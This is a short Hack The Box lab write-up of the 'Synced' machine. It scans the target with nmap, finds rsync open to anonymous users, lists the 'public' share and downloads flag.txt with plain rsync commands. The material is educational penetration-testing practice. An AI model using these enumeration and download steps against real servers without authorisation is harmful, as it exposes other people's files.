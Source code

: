 ```toc
```
# HTB Notes - Synced #

+ **Date**: 12-5-2022
+ **Author**: Noah Soqui
+ **Tags**: #Rsync

## Intelligence Gathering ##

Scanning the target:
+ `nmap -sV 10.129.228.37`
+ Output:
``` Shell
Nmap scan report for 10.129.228.37
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

## Misconfiguration and Vulnerability Analysis  ##

The Rsync service allow null sessions, can download the flag without authentication.

## Exploitation ##

Will use the Rsync utility to see shares available:
``` Shell
$ rsync rsync://10.129.228.37 --list-only 
public          Anonymous Share
```

Then can look more into the share called "public":
``` Shell 
$ rsync rsync://10.129.228.37/public --list-only 
drwxr-xr-x          4,096 2022/10/24 17:02:23 .
-rw-r--r--             33 2022/10/24 16:32:03 flag.txt
```
+ Note that we see the flag is available and has read/write access 

## Post Exploitation ##

Download the flag in the location found:
+ `rsync rsync://10.129.228.37/public/flag.txt .` 

## Reporting ##

### Executive Summary ###

rsync is a utility for efficiently transferring and synchronizing files between a computer and a storage drive and across networked computers by comparing the modification times and sizes of files. Its default port is 873. Can us user name <mark style="background: #BBFABBA6;">None</mark> to authenticate anonymously. After finding the service, it is as simple as interacting with the <mark style="background: #FFB86CA6;">Rsync</mark> utility to find and download the flag.